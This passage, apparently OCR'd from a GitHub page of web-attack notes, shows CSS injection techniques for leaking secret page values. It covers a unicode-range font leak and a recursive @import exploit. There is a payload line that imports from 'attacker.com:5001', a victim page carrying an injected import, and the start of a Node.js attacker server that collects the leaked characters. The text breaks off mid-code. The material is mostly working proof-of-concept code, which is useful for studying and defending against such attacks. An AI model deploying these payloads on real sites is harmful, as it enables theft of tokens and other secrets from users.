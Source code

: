 ```css
 unicode-range:U+005A;
}

#sensitive-information{
 font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>
```

## # @import

This method works recursively by getting both prefix and postfix character. However, this exploit code only works that input tag having secret value is in front of `@import`

```css
@import url('http://attacker.com:5001/start?');
```

[https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231)

### Victim site

```html
<!doctype html>
<body>
    <div><article><div><p><div><div><div><div><div>
<input type="text" value="d3adc0d3">
<style>
@import url('http://localhost:5001/start?'); /* Injection */
</style>
```

### Attacker Server

```javascript
const http = require('http');
const url = require('url');
const port = 5001;

const HOSTNAME = "http://localhost:5001";
const DEBUG = false;

var prefix = "", postfix = "";
var pending = [];
var stop = false, ready = 0, n = 0;

const requestHandler = (request, response) => {
    let req = url.parse(request.url, url);
    log('\treq: %s', request.url);
    if (stop) return response.end();
    switch (req.pathname) {
        case "/start":
            genResponse(response);
            break;
        case "/leak":
            response.end();
            if (req.query.pre && prefix !== req.query.pre) {
                prefix = req.query.pre;
            } else if (req.query.post && postfix !== req.query.post) {
               postfix = req.query.post;
            } else {
                break;
            }
```
